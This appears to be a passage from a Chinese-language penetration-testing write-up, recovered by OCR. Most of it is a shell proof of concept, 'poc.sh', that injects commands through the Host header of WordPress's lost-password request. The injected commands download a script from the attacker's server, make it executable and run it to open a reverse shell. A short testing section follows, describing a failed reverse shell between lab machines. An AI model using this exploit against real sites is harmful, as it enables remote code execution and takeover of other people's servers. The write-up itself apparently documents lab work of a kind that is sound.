 ```
cmd="/usr/bin/curl $http_server -o /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"# get a reverse shell
cmd="/bin/chmod +x /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"cmd="/bin/sh /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"*
```

***poc.sh***

# ***测试***

*因此，在执行 POC 文件之前，我们首先必须确保一切工作正常。从**受害者 2** 机到**进攻者**机直接倒壳是不可能的。尽管我们运行了动态端口转发，但它仍然不起作用。*

*![](img/54727baec2f8335654736519b507fe60.png)*
